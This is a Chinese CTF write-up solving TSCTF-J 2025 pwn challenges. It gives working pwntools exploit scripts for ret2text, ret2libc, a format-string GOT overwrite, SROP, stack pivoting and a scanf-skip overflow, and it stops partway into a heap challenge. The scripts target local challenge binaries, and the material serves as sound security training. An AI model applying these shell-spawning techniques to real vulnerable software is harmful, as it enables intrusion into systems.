+++
date = '2026-05-29T08:00:00+08:00'
draft = false
title = 'TSCTF-J 2025 Pwn题目全复现'
categories = ["writeup"]
series = ["writeup"]
series_order = 1
summary = "好难"
+++

## ret

### 分析

打开`vuln`函数：



连个输入限制都没得，程序里有`backdoor`函数，直接ret2text，不过要注意一哈**十六进制对齐**。

### exp

```py
from pwn import *

backdoor = 0x0000000000400676 + 1

io = process("./pwn")
# io = remote('127.0.0.1', 35105)

payload = cyclic(0x18) + p64(backdoor)
io.recvuntil(b'sign-in!')
io.sendline(payload)

io.interactive()
```

## pop

### 分析

打开`vuln`函数：



还是没有输入限制，但是这次没有`backdoor`了，可以尝试打ret2libc，用`puts`泄露自己的got表条目，从而得到libc基址。

### exp

```py
from pwn import *

io = process("./pwn")
# io = connect("127.0.0.1", 43201)
libc = ELF("./libc.so.6")
elf = ELF("./pwn")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
vuln = 0x0000000000400626
pop_rdi = 0x0000000000400713

payload = cyclic(0x18) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln)
io.recvuntil(b'time!\n')
io.sendline(payload)

libc.address = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
log.success("Got libc address: " + hex(libc.address))

system = libc.symbols['system']
log.success("Got system address: " + hex(system))

binsh = next(libc.search(b"/bin/sh"))
log.success("Got binsh address: " + hex(binsh))

payload = cyclic(0x18) + p64(pop_rdi) + p64(binsh) + p64(system)
io.recvuntil(b'time!\n')
io.sendline(payload)

io.interactive()
```

## sentences

### 分析

保护如下：



打开`vuln`函数：



程序有明显的格式化字符串漏洞，但是只有三次机会，我们可以这样安排：

1. 泄露程序基址和libc基址
2. 把`printf`的got表条改写为`system`的地址（由于程序中没有got表条的地址，因此我们要自己写入，在格式化字符串中传参）
3. 输入`/bin/sh\x00`，实际执行的是`system("/bin/sh")`

### exp

```py
from pwn import *

# context.log_level = "debug"
context(os = "linux", arch = "amd64")

io = process("./pwn")
# io = connect("127.0.0.1", 34429)
def check():
    gdb.attach(io)
    pause()
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

""" --------------------------------------- 1. Canary 基址 库基址泄露 --------------------------------------- """

io.recvuntil(b'sentences.')
io.sendline(b'%63$p %43$p %65$p')
io.recvline()

canary = int(io.recvuntil(b' ').strip(), 16)
log.success("Got canary: " + hex(canary) + "...seems not be used...")

elf.address = int(io.recvuntil(b' ').strip(), 16) - 0x00000000000012D6
log.success("Got program address: " + hex(elf.address))

libc.address = int(io.recvuntil(b'\n').strip(), 16) - libc.symbols['__libc_start_main'] - 139
log.success("Got libc address: " + hex(libc.address))

""" --------------------------------------- 2. 改写printf的got表为system --------------------------------------- """

system = libc.symbols['system']
log.info("System address: " + hex(system))
printf = libc.symbols['printf']
log.info("Printf address: " + hex(printf))

printf_got = elf.got['printf']
log.info("Printf got address: " + hex(printf_got))

# payload = fmtstr_payload(8, {printf_got : system})
sys_lobytes = system % (16 ** 4)
sys_hibytes = system / (16 ** 4) % (16 ** 4)
if sys_lobytes > sys_hibytes:
    payload = f'%{sys_hibytes}c%14$hn%{sys_lobytes - sys_hibytes}c%15$hn'.encode().ljust(0x30, b'a')
    payload += p64(printf_got + 2) + p64(printf_got)
elif sys_lobytes < sys_hibytes:
    payload = f'%{sys_lobytes}c%14$hn%{sys_hibytes - sys_lobytes}c%15$hn'.encode().ljust(0x30, b'a')
    payload += p64(printf_got) + p64(printf_got + 2)
else:
    payload = f'%{sys_lobytes}c%14$hn%15$hn'.encode().ljust(0x20, b'a')
    payload += p64(printf_got) + p64(printf_got + 2)

# check()

io.send(payload)

""" --------------------------------------- 3. 把binsh传参 --------------------------------------- """

io.send(b'/bin/sh\x00')

io.interactive()
```

## Easy Syscall

### 分析

打开`vuln`函数：



程序提供了大量溢出，但是没有后门，也没有合适的gadgets，很难打ret2libc。

不过程序提供了`magic`函数，可以用于SROP：



程序中也有binsh字符串：



我们可以在SROP过程中设置好所有的寄存器，然后跳转回`syscall`，即可直接执行`execve("/bin/sh", 0, 0)`。

### exp

```py
from pwn import *

context(os = 'linux', arch = 'amd64')
io = process("./pwn")
# io = connect("127.0.0.1", 34393)

syscall = 0x0000000000401185
binsh = 0x0000000000402008
sigreturn = 0x000000000040117E

regStack = SigreturnFrame()
regStack.rax = 0x3b
regStack.rdi = binsh
regStack.rsi = 0
regStack.rdx = 0
regStack.rip = syscall

payload = cyclic(0x38) + p64(sigreturn) + bytes(regStack)
io.recvuntil(b'here...\n')
io.send(payload)

io.interactive()
```

## Hard Syscall

### 分析

整个程序就这么点代码：



什么都没有，理论上还是可以打SROP的（*毕竟题目名就已经暗示了*），但是如何控制rax为15呢？

这里有个重点是：`read`系统调用会返回读取的长度，就存储在rax中，只要我们提前布置好后面的栈，先跳回`read`，写入15个字符，返回时rax就会被设置为15，进而触发后面的SROP。

这里需要进行两次SROP，第一次需要栈迁移到bss段，写入`/bin/sh\x00`，第二次才调用`execve`，传参刚刚写入的字符串。

### exp

```py
from pwn import *

context(os = 'linux', arch = 'amd64')
io = process("./pwn")
# io = connect("127.0.0.1", 40005)

read_addr = 0x000000000040106A
syscall = 0x000000000040106F

reg1 = SigreturnFrame()
reg1.rax = 0
reg1.rdi = 0
reg1.rsi = 0x402800 - 0x10
reg1.rdx = 114514
reg1.rip = syscall
reg1.rbp = 0x402800
reg1.rsp = 0x402800

payload = cyclic(0x18) + p64(read_addr) + p64(syscall) + bytes(reg1)
io.recvuntil(b'now!\n')
io.send(payload)
sleep(1)
io.send(cyclic(15))
sleep(1)

reg2 = SigreturnFrame()
reg2.rax = 0x3B
reg2.rdi = 0x402800 - 0x10
reg2.rsi = 0
reg2.rdx = 0
reg2.rip = syscall

payload = cyclic(0x10) + p64(read_addr) + p64(syscall) + bytes(reg2)
io.send(payload)
sleep(1)
payload = b'/bin/sh\x00' + b'\x00' * 7
io.send(payload)
sleep(1)

io.interactive()
```

## dinner

### 分析

题目给出了源码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <fcntl.h>      // For open() and O_RDONLY
#include <sys/types.h>  // For system data types
#include <sys/stat.h>   // For file status flags
#include <time.h>
                //
int identity = 0;
int buffer_max[0x100];
int System(const char *command);

void
func1(){
    size_t buffer[0x20];
    printf("So please show me your dinner Admission ticket.\n");
    int a;
    a = read(0,buffer,0x20*sizeof(size_t));
    if(a == -1){
        printf("You are not authorized to attend this dinner.\n");
        return;
    }
    printf("Name: %lx\n",buffer[0]);
    printf("Age:  %lx\n",buffer[1]);
    char *desc = (char *)&buffer[2];
    printf("Description: %.*s\n", (int)(sizeof(size_t) * (0x20 - 2)), desc);

}
void
gift(){
   
}


void
food1(){
    printf("  ::::            //\n");
    printf(" :----:     o8Oo.//\n");
    printf("C|====| ._o8o8o8Oo_.\n");
    printf(" |    |  \\========/\n");
    printf(" `----'   `------'\n");
}

void
food2(){
    printf("         ___\n");
    printf("       .'o O'-._\n");
    printf("      / O o_.-`|\n");
    printf("     /O_.-'  O |\n");
    printf("     | o   o .-`\n");
    printf("     |o O_.-'\n");
    printf("     '--`\n");

}

void
food3(){
    printf("      /`·.¸\n");
    printf("     /¸...¸`:·\n");
    printf(" ¸.·´  ¸   `·.¸.·´)\n");
    printf(":  © ):´;      ¸  {\n");
    printf(" `·.¸ `·  ¸.·´\\`·¸)\n");
    printf("     `\\\\´´\\¸.·´\n");
}

void
func2(){
    int r,sum;
    size_t buffer[0xa];
    int b,i;
    printf("How many dishes would u like to eat?\n");
    scanf("%1d",&i);
    printf("Okey, then What would you like to eat?\n");
    read(0,buffer,sizeof(size_t)*i);
    r = 0;
    while (buffer[r] != '\0' && buffer[r] != '\n'&& r<i) {
        sum += (int)buffer[r];         
        r++;
    }
    printf("Cooking ...\n");
    sleep(1);
    printf("The food is served.\nWish you a happy meal!\n");
    r = sum % 3;
    if(r==0){food1();}
    else if(r==1){food2();}
    else{food3();}
    return; 
}

void
backdoor(){
    printf("OMG!!! You find my backdoor!!! Ov0\n");
    System("/bin/sh\x00");
}
int
System(const char *command){
    printf("[*] Process './dinner' stopped with exit code 250 (pid 114514)\n[*] Got EOF while reading in interactive\n");
}

int
Myinit(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    return 0;
}

int
main(){
    Myinit();    
    printf("Welcome to ldz's Ciber-Stack-Dinner!\n");
    printf("Today's special: Segmentation fault or maybe Nothing happened — served with a stack sauce.\n");
    printf("Don't worry, we saved your return address... maybe...\n");
    __asm__(
        "call func1\n\t"
        "call func2\n\t"
        );
    return 0;    

}
```

理论上程序是没有溢出机会的：`func2`提供了10个qword的空间，我们可以自己输入可写长度，但是只能写入一位数，这说明最多只能写入9个qword。

不过其实还有机会：如果我们输入一个非数字字符，那么`scanf`会跳过这次输入，变量保持原值，如果这个变量原先就足够大，那我们就有了溢出机会，如何保证这个变量足够大呢？

仔细观察，程序先后调用了`func1`和`func2`，两者的栈底理论上在相同的位置，并且`func1`中提供了大量可写的空间，我们可以尝试找一下这个变量是不是在可写空间内，经过调试发现，它确实在，偏移为`4 * 43 = 0xAC`。



可以尝试把它改写成一个大数，再在`func2`中跳过输入，这样这个变量就会维持我们原先设置的大数，就可以实现溢出了。

另外，程序没有后门，需要打ret2libc。如果你调试一下，就会发现`func1`的可写空间中还有一个`puts + 506`的指针，而且写入的数据还会被打印出来。如果我们将这个指针前的数据全部覆写为非空白字符，那么打印的时候就能把这个指针带出来。

因此，要素齐全，可以打ret2libc了。

### exp

```py
from pwn import *

# context.log_level = "debug"
elf = ELF("./dinner")
libc = ELF("./libc.so.6")
def check():
    gdb.attach(io)
    pause()
binsh = 0x00000000004022A3

io = process("./dinner")
# io = connect("127.0.0.1", 44881)

payload = cyclic(0xAC) + p32(0x01010110) + b'aaaaaaaa' * 3
io.recvuntil(b'ticket.\n')
io.send(payload)

io.recvuntil(b'aaaaaaaaaaaaaaaaaaaaaaaa')
libc.address = u64(io.recv(6) + b'\x00' * 2) - libc.symbols['puts'] - 506
log.success("Got libc address: " + hex(libc.address))

pop_rdi = libc.address + 0x000000000010f78b
system = libc.symbols['system']
ret = pop_rdi + 1
io.recvuntil(b'eat?\n')
payload = cyclic(0x68 + 1) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```

## pivot

### 分析

打开`vuln`函数：



程序只提供了0x10的溢出空间，因此考虑打栈迁移。

虽然程序没有划分一片区域供我们栈迁移，但是好在有按页对齐机制，在`.bss`段下面有大片的空白区域，可以在那里迁移。通过调试我们就能找到这片区域：



不过得打ret2libc，我们还要泄露libc基址，但是程序里没有什么`pop rdi`这类gadgets，也没有很多可泄露的数据，怎么办？

实则`.bss`段上存储了`stdin`和`stdout`文件的指针，这类文件是在libc中定义的，我们可以泄露这个指针，就能算出libc基址。



程序仅提供了`write`这个打印方式，他有一个好处是和`read`一样都在第二个参数存储缓冲区指针，根据汇编代码我们可以得知`read`会将缓冲区地址设置为`rbp - 0x100`，如果我们将rbp暂时迁移到`&stdout + 0x100`附近，调用一次`read`，就会将rsi设置到那里，此时如果我们保持rsi不变，调用`write`就可能会打印这个指针。

因此我们需要安排两次栈迁移，第一次迁移到`0x404000 + 0x200`，然后在0x200处设置0x100，触发一次`read`，这时rsi已经设置好了。`read`之后的`leave`会将rsp移动到0x100处，正好是输入缓冲区的头部，我们在这里布置新的rbp以及rop链去触发`write`。


*没错我是从栈迁移的blog偷来的*

write之后会紧接着一次read，因此我们需要第二次栈迁移，在新栈处写入剩余rop链，由于要素齐全，直接打一手常规的ret2libc即可。

### exp

```py
from pwn import *

context.log_level = "debug"
libc = ELF("./libc.so.6")
rbp = 0x404200
read = 0x00000000004011EA
write = 0x00000000004011DB
leave_ret = 0x0000000000401209
def check():
    while io.poll() is not None:
        continue
    gdb.attach(io)
    pause()
io = process("./pwn")

payload = cyclic(0x100) + p64(rbp) + p64(read)
io.recvuntil(b'fun\n')
io.send(payload)

sleep(1)
# check()

payload = p64(rbp + 0x800) + p64(write) + cyclic(0xf0)
payload += p64(rbp - 0x100) + p64(read)
io.send(payload)

sleep(1)

io.send(b'\n')

io.recv(0x20)
libc.address = u64(io.recv(8)) - 0x000000000021AAA0
log.success("Got libc address: " + hex(libc.address))
pop_rdi = libc.address + 0x000000000002a3e5
ret = pop_rdi + 1
binsh = next(libc.search("/bin/sh"))
system = libc.symbols['system']

payload = p64(rbp + 0x800 - 0x100) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system) + cyclic(0xd8)
payload += p64(rbp + 0x800 - 0x100) + p64(leave_ret)
io.send(payload)

io.interactive()
```

## uniform

### 分析

libc版本为2.23。打开`vuln`函数：



菜单题，可以实现增删改查，以及一个`fight`函数：



`add`函数只能申请0x80的堆块，说明释放后只能进入unsorted bins：

